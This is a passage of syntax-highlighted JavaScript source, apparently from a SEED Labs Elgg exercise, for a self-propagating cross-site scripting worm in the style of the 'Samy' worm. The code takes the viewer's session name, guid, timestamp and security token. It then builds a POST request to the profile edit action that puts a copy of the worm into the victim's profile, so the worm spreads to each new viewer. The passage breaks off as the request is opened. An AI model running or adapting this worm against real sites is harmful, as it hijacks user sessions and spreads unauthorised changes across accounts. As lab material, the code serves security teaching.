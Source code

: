     <span class="pl-k">var</span> <span class="pl-s1">jsCode</span> <span class="pl-c1">=</span> <span class="pl-smi">document</span><span class="pl-kos">.</span><span class="pl-en">getElementById</span><span class="pl-kos">(</span><span class="pl-s">"worm"</span><span class="pl-kos">)</span><span class="pl-kos">.</span><span class="pl-c1">innerHTML</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">tailTag</span> <span class="pl-c1">=</span> <span class="pl-s">"&lt;/"</span> <span class="pl-c1">+</span> <span class="pl-s">"script&gt;"</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">wormCode</span> <span class="pl-c1">=</span> <span class="pl-en">encodeURIComponent</span><span class="pl-kos">(</span><span class="pl-s1">headerTag</span> <span class="pl-c1">+</span> <span class="pl-s1">jsCode</span> <span class="pl-c1">+</span> <span class="pl-s1">tailTag</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-c">//JavaScript code to access user name, user guid, Time Stamp __elgg_ts</span>
    <span class="pl-c">//and Security Token __elgg_token</span>

    <span class="pl-k">var</span> <span class="pl-s1">userName</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;name="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">name</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">guid</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;guid="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">guid</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">ts</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_ts="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_ts</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">token</span> <span class="pl-c1">=</span> <span class="pl-s">"&amp;__elgg_token="</span> <span class="pl-c1">+</span> <span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">security</span><span class="pl-kos">.</span><span class="pl-c1">token</span><span class="pl-kos">.</span><span class="pl-c1">__elgg_token</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">description</span> <span class="pl-c1">=</span>
      <span class="pl-s">"&amp;description=&lt;p&gt;modified by Samy&lt;p&gt;"</span> <span class="pl-c1">+</span>
      <span class="pl-s1">wormCode</span> <span class="pl-c1">+</span>
      <span class="pl-s">"&amp;accesslevel[description]=2"</span><span class="pl-kos">;</span>
    <span class="pl-c">//Construct the content of your url.</span>
    <span class="pl-k">var</span> <span class="pl-s1">sendurl</span> <span class="pl-c1">=</span> <span class="pl-s">"http://www.xsslabelgg.com/action/profile/edit"</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">content</span> <span class="pl-c1">=</span> <span class="pl-s1">userName</span> <span class="pl-c1">+</span> <span class="pl-s1">guid</span> <span class="pl-c1">+</span> <span class="pl-s1">ts</span> <span class="pl-c1">+</span> <span class="pl-s1">token</span> <span class="pl-c1">+</span> <span class="pl-s1">description</span><span class="pl-kos">;</span>
    <span class="pl-k">var</span> <span class="pl-s1">samyGuid</span> <span class="pl-c1">=</span> <span class="pl-c1">47</span><span class="pl-kos">;</span>
    <span class="pl-k">if</span> <span class="pl-kos">(</span><span class="pl-s1">elgg</span><span class="pl-kos">.</span><span class="pl-c1">session</span><span class="pl-kos">.</span><span class="pl-c1">user</span><span class="pl-kos">.</span><span class="pl-c1">guid</span> <span class="pl-c1">!=</span> <span class="pl-s1">samyGuid</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
      <span class="pl-c">//Create and send Ajax request to modify profile</span>
      <span class="pl-k">var</span> <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-c1">null</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
      <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">open</span><span class="pl-kos">(</span><span class="pl-s">"POST"</span><span class="pl-kos">,</span> <span class="pl-s1">sendurl</span><span class="pl-kos">,</span> <span class="pl-c1">true</span><span class="pl-kos">)</span><span class="pl-kos">;</span>